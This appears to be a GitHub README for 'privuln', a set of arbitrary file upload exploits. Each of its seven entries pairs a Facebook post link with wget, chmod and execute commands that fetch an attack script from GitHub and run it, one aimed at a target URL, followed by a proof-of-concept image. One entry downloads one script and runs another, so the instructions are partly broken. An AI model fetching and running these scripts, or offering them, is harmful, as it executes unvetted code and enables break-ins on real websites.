 # privuln
## Arbitary File Upload Exploit

- https://web.facebook.com/kawai.php7/posts/pfbid0Bar7Nn49QEjG5RBARYn6D84HDKYJ1wewp7HadK2BuU91NKtcY4zkqirKrtSWvCRDl
```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/privuln.sh
chmod +x privuln.sh
./privuln.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/poc.jpeg">

---

- https://web.facebook.com/kawai.php7/posts/pfbid02sagrsrsiEZ52rVQqbzaszkuvtrZA3sDQrWWjpk8a5VrF7TfBQC21WNdpXkxMz6SKl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/exploit.sh
chmod +x exploit.sh
./exploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/exploit.jpeg">

---

- https://web.facebook.com/kawai.php7/posts/pfbid0NRMMR8Z8AmGwtQt18gzqjYtt5Zgj5JmzGqPFyCfV7BWYHirtH4uVd8GqBUkWPQ9Rl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/molla.sh
chmod +x exploit.sh
./exploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/molla-exploit-poc.png">

---

- https://web.facebook.com/kawai.php7/posts/pfbid02tWdvYk5H1VX9JfuoKvnSQcpkgQut9QDqZ9biaLPXKcMHFRW8Y5hpXEY6kr8wuMX7l

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/zanexploit.sh
chmod +x zanexploit.sh
./zanexploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/zanexploit-poc.png">

---

- https://web.facebook.com/kawai.php7/posts/pfbid02ZxhYbJ4kYxh31KKs3nPrYpUbP9psSiifADvp1nehyGdx213dQmFU9LmZ16kNZC2xl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/eraexploit.sh
chmod +x eraexploit.sh
./eraexploit.sh http://target.com
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/earexploit-poc.png">

---

- https://web.facebook.com/kawai.php7/posts/pfbid02um3uk7LZnwmjSNsAWnNhxUaVEgm1WJa61dymvqV2eu6fRbtXfrcUe2ywoG4ygB8Bl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/flixploit.sh
chmod +x flixploit.sh
./flixploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/flixploit-poc.png">

---

- https://web.facebook.com/kawai.php7/posts/pfbid02X986bkY6K6wxYhbkEykT4pZ9xbdfTmry7PW5WyzxX5ZL32N4PKDHGqAoZK8K1RRjl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/sbxploit.sh
chmod +x sbxploit.sh
./sbxploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/sbxploit-poc.png">
